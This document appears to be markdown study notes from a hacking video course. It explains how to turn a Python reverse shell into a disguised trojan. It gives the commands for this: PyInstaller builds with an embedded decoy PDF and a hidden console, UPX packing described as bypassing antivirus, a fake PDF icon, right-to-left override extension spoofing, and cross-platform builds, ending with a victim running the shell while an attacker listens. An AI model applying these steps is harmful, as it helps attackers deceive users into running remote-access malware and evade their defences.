 ### Converting in binary code of OS

#### Windows

In native OS 
```batch
python.exe -m pip install pyinstaller
pyinstaller script.py --onefile
```

script will create in `dist` directory / folder, 
and run without python installation on computer.

If you make any chnages to script.py compile it again,
 don't need to prompt pop up disable by 

```
python.exe script.py --onefile --noconsole
```

#### Linux

**Video #09**
**Creating a trojan by embedding files in program code**

ON linux computer
compiling with pyinstaller.

# Make sure to run listenser.py 

```bash
wine /root/.wine/drive_c/Python2.7/Scripts/pyinstaller.exe --add-data "/root/Downloads/sample.pdf" --onefile --noconsole reverse_backdoor.py
```


**Video #10**
**Bypassing antivirus program**

**Video #11**
**Bypassing antivirus program**

Using upx for compling in kali linux

```bash
upx reverse_backdoor.py -o malware.exe
```
here `upx` is command or tool or Package which we call and `-o` means output file name

**Video #12**
**Adding Icon for program**

Download or Create or Edit a image 
Convert image to `.ico` extension

```
wine /root/.wine/drive_c/Python2.7/Scripts/pyinstaller.exe --add-data "/root/Downloads/sample.pdf;," --onefile --noconsole  --icon  /path/icon.ico  reverse_backdoor.py
```

**Video #13**
**Spoofing File Extension**

Character: Right to Left Overwrite
> zaid.exe
> zaid-fdp.exe
> zaid-exe.pdf

Note: web browers will not work it will show zaid-fdp.exe and we trying manupilate the user
so, tried to compress and delivery the malware.

**Video 14**
**Cross-Platform Hacking**
**On OS X**

```zsh
# manual installing pip

sudo pip install pyinstaller
```

Edit reverse_shell, 
> execute command use `open file.pdf`

**Compiling using pyinstaller** 
```
# pdf.icns is icon image file icns is icon extension use for OS X.
pyinstaller --onefile --noconsole --icon pdf.icns reverse_shell.py
```

extension will not show in OS X.

**Video #14**
**Linux**

Installing PYInstaller 
```bash
sudo pip install pyinstaller 
```

Compiling python reverse shell file.
```bash
pyinstaller --onefile --noconsole reverse_shell.py
```

this will create a file reverse_shell / shell script
it will not show extension

navigate to file 
example file in downloads directory/folder.
```bash
cd /home/kali/Downloads
```

change permission to executable.
```
chmod +x reverse_shell
```

On attacker runs a listenser

then user runs reverse_shell by:
```bash
./reverse_shell
```